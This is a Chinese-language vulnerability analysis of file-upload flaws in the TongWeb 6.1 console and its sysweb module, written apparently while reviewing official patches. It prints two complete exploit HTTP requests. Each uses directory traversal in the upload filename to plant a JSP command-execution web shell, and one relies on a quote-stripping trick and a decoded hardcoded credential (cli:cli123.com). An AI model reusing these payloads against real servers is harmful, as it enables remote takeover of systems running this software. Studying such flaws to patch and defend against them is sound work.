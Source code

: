如果直接上传文件，一般filename="c.jsp"，这样拼接完的路径是`C:\TongWeb6.1\temp\upload\"c.jsp"`，而Windows又禁止文件名包含`\ / : * ? " < > |`其中的一个。所以在抓包时，将filename后面的引号去掉，并且可以跨目录
```
POST /sysweb/upload HTTP/1.1
Authorization: Basic Y2xpOmNsaTEyMy5jb20=
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaYguOre6zCdYZhE1

------WebKitFormBoundaryaYguOre6zCdYZhE1
Content-Disposition: form-data; name="filename"; filename=../../applications/console/c.jsp
Content-Type: application/octet-stream

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
------WebKitFormBoundaryaYguOre6zCdYZhE1--
```

这个数据包还有个值得注意的点`Authorization: Basic Y2xpOmNsaTEyMy5jb20=`，Basic后的字段解码为`cli:cli123.com`。也就是sysweb模块是用base64用户名:密码做身份认证的，



### 补丁2
官方链接地址： http://www.tongtech.com/api/sys/stl/actions/download?siteId=1&channelId=103&contentId=1753&fileUrl=xnKfUxgX5AnAHragMhPos0zLlCKtEWcgEVu7Fq30slash0iAAmnb7FAyWCRGS55tXbRe8kfllSdIO7tgDJkKQOkXMk1E89ECP85P41sfdPBEr1QqSM8Y0JwNSKEw0equals00equals00secret0

这四个补丁都是针对于控制台的，这里看一下文件上传和命令执行的漏洞

**（1）文件上传**

补丁打在了`com.tongweb.console.deployer.controller.Upload类`，这个的访问地址`/console/Upload`
```java
public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String method = request.getParameter("method"); // 想要调用upload方法，需要method参数为upload
    if (method.equals("upload")) {
        this.upload(request, response);
    }
}
```
upload方法利用组件commons-fileupload-1.3.3.jar进行文件上传操作，具体代码点击展开
<details><summary>Upload代码</summary></details>

发送文件上传数据包，这里就不用关注filename是否包含引号的问题了，但是数据包可以看出console用的cookie做身份认证。
```
POST /console/Upload?method=upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBZshdxEqKekYAuiB
Cookie: console-58ef4bbb-6bb7=1D37708C8D90C4EB41147ED6DB076BEF

------WebKitFormBoundaryBZshdxEqKekYAuiB
Content-Disposition: form-data; name="filename"; filename="../../applications/console/k.jsp"
Content-Type: application/octet-stream

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
------WebKitFormBoundaryBZshdxEqKekYAuiB--
```
